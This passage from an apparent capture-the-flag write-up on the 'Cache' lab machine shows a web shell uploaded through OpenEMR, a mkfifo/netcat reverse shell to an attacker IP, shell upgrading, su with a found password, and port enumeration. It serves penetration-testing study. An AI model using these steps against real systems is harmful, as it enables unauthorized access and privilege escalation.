> User: `openemr_admin` \
> Pass: `xxxxxx`

Log in using the username and password. The interface allows for uploading files to the webserver at Administration > Files. Upload a shell.php file containing p0wnyshell <https://github.com/flozz/p0wny-shell> using the image upload feature. There will be no confirmation, but the file should upload to `sites/default/images`. After uploading, access http://hms.htb/sites/default/images/shell.php to access the uploaded p0wnyshell. 

After confirming that nc is present using `which nc`, start a reverse shell from the web shell and upgrade to an interactive shell.

```bash
# rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.16 4444 >/tmp/f
```

```bash
$ nc -nlvp 4444               
listening on [any] 4444 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.10.188] 54358
/bin/sh: 0: can't access tty; job control turned off
$ whoami && hostname
www-data
cache
$ python3 -c "__import__('pty').spawn('/bin/bash')"
www-data@cache:/var/www/hms.htb/public_html/sites/default/images$ 
```

Listing the home folder shows users ash and luffy. Use the obtained credentials from the login page to change to user ash.

```bash
www-data@cache:/$ ls -la /home 
ls -la /home
total 16
drwxr-xr-x  4 root  root  4096 Sep 17  2019 .
drwxr-xr-x 23 root  root  4096 Jul  9  2020 ..
drwxr-xr-x 12 ash   ash   4096 Mar 27 17:11 ash
drwxr-x---  5 luffy luffy 4096 Sep 16  2020 luffy

www-data@cache:/home$ su ash
Password: H@v3_fun

ash@cache:/home$ cd ash
ash@cache:~$ cat user.txt
```

## Further enumeration

Netstat shows that something is listening on port 11211

```bash
ash@cache:~$ netstat -antup
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:11211         0.0.0.0:*               LISTEN      -                   
tcp        0    300 10.10.10.188:54358      10.10.14.16:4444        ESTABLISHED -                   
```